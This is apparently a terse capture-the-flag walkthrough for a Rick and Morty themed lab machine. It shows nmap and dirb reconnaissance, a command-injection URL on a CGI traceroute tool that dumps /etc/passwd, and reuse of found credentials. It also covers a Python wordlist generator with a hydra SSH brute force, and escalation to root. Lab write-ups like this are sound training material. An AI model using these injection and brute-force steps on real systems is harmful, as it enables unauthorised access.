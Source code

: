 # wil
`nmap 192.168.1.17 -O -sV -p- -T5`
________________________________________________________
nmap -> port ftp open anonymous = **FLAG{Whoa this is unexpected} - 10 Points**
________________________________________________________
nmap port 13337 -> **FLAG{TheyFoundMyBackDoorMorty}-10Points**
________________________________________________________
dirb port 80 == /password/ == **FLAG{Yeah d- just don't do it.} - 10 Points**
________________________________________________________
admin panel on port 9090 == **FLAG{There is no Zeus, in your face!} - 10 Points**
________________________________________________________
`telnet 192.168.1.17 60000` -> **FLAG{Flip the pickle Morty!} - 10 Points**
________________________________________________________
robots.txt == `http://host/cgi-bin/tracertool.cgi?ip= |` (**cat** is changed so **more**)
```
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```
No login ssh so trying with source-code hint (*winter* + *Summer* as ftp credential -> **FLAG{Get off the high road Summer!} - 10 Points**
________________________________________________________
Connecting via ssh port 22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0) with Summer/winter. Head sur l'image pour voir un password unzip le fichier flag avec ce password (Meeseek) -> **FLAG{131333} - 20 points**
________________________________________________________
New tips safe binary in /home/RickSanchez/RICKS_SAFE so scp+gdb+drop euid via cp /tmp == 131333 needed argv == decrypt: 	**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**
________________________________________________________
Depuis le hint qui indique qu'on va devoir bf l'user RickSanchez j'ai fais une wordlist via un script python et donc -> `hydra -l RickSanchez -P wordlist ssh://192.168.1.17 -s 22222` -> **P7Curtains**
________________________________________________________
`sudo su` as RickSanchez . flag root -> **FLAG{Ionic Defibrillator} - 30 points**
________________________________________________________
```
Script py :
import string

mystring = list(string.ascii_uppercase)
nw = ["The", "Flesh", "Curtains"]

for w in nw:
    for i in range(100):
        for l in mystring:
            print("%s%s%s"% (l,i,w))
```
